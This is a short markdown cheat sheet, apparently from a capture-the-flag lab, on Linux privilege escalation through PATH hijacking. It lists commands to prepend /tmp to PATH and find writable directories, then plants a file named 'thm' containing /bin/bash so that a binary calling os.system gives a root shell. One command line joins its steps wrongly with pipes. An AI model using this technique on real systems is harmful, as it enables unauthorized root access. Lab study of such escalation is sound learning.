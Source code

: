 ## PATH 

### Stapsgewijs

#### 1. Check the PATH enviromental variable

```
echo $PATH
```

#### 2. Think about these steps:

- What folders are located under $PATH
- Does your current user have write privileges for any of these folders?
- Can you modify $PATH?
- Is there a script/application you can start that will be affected by this vulnerability?

#### 3. Set environment variable to /tmp cause u got write access there

```
export PATH=/tmp:$PATH
```

#### 4. Check for folder permission in the directorys

```
find / -writable -type d 2>/dev/null
```

*Example:*

```
/home/murdoch
```
*Has read permission and has a binary in it with a decompiled script that has this:*

```
os.system(thm)
```

#### 5. Create a thm file, give 777 permission and run the test binary from the /home/murdoch binary

```
touch thm | chmod 777 thm | nano thm
```

*Contents of thm file:*

```
/bin/bash
```

**Giving root access**

